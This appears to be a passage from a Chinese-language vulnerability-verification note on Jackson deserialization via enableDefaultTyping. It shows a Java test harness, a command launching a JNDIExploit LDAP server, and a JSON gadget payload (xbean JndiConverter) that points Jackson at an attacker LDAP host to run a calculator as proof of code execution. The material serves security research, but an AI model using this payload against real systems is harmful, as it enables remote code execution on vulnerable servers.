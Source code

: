 PayloadRunner.java

```java
import com.fasterxml.jackson.core.JsonProcessingException;
import com.fasterxml.jackson.databind.ObjectMapper;


public class PayloadRunner {
    public static void main(String args[]) throws JsonProcessingException {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String evilJson = "";
        mapper.readValue(evilJson, Object.class);
    }
}
```

##### 漏洞验证

LDAP服务端

```shell
java -jar .\JNDIExploit-1.4-SNAPSHOT-modified.jar -i 10.10.10.1
```

![image-20220124164807399](jackson.assets/image-20220124164807399.png)

Payload-弹计算器

```java
// calc
[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"}]
```

测试效果

![image-20220124165036128](jackson.assets/image-20220124165036128.png)
